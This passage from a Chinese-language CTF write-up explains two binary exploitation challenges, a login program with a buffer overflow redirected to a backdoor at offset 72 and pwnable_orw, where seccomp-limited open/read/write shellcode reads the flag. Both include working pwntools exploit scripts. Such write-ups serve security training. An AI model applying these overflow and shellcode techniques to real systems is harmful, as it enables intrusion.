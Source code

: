 ![image-20210413175541155](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740599.png)

如何才能利用呢？当然是把rax改成后门函数的地址

![image-20210413180901421](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740377.png)

call rax之前还得解两次引用，我们把第二次解引用前rax保存的地址(即下图中rax寄存器保存的0x7fffffffdc18)处保存的地址改为后门函数的地址(0x0400E88)即可

![image-20210413181220856](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740867.png)

重新运行，密码输入12345678，从下两张图可以看出偏移为0x7fffffffdbd0 - 0x7fffffffdc18 = 0x48 = 72

![image-20210413181633215](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740955.png)

![image-20210413181737293](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740526.png)

exp如下：

```
from pwn import *
p = process('./login')
p.recvuntil("Please enter username: ")
p.sendline(b'admin')
p.recvuntil("Please enter password: ")
passwd = '2jctf_pa5sw0rd'
payload = passwd + (72 - len(passwd)) * b'\x00' + p64(0x0400E88)
p.sendline(payload)
p.interactive()
```

# pwnable_orw

![image-20210413205335154](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740843.png)

嚯，好简单のpwn，写入shellcode（int 0x80），然后满怀期待地看着屏幕弹出EOFError……

![image-20210413210052766](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740073.png)

```
seccomp 是 secure computing 的缩写，其是 Linux kernel 从2.6.23版本引入的一种简洁的 sandboxing 机制。在 Linux 系统里，大量的系统调用（system call）直接暴露给用户态程序。但是，并不是所有的系统调用都被需要，而且不安全的代码滥用系统调用会对系统造成安全威胁。seccomp安全机制能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system call），即 read(), write(), exit() 和 sigreturn()，否则进程便会被终止。
```

orw_seccomp函数执行了两次prctl函数

第一次调用prctl函数 ————禁止提权（不能'/bin/sh'）
第二次调用prctl函数 ————限制能执行的系统调用只有open，write，exit（不能execve）
意思就是我们不能使用特殊的系统调用getshell，但是可以**用open、read、write三个系统调用去读flag**。



这里可以直接利用shellcraft来帮助我们写shellcode，非常简单

```
#-*- coding:utf-8 -*-
from pwn import *
context(arch='i386', os='linux', log_level='debug')
#p = process("./orw")
p = remote('node3.buuoj.cn', 27702)
p.recvuntil("Give my your shellcode:")
shellcode = shellcraft.open('flag')
# 将esp作为临时变量buf的地址
shellcode += shellcraft.read('eax', 'esp', 100) # shellcode += shellcraft.read(3, 'esp', 100)也可以，前者利用了open函数返回的文件指针，后者用3代替了oepn返回的fd指针，因为3可以用作于打开文件时的文件描述符
shellcode += shellcraft.write(1, 'esp', 100)
p.sendline(asm(shellcode))
p.interactive()
```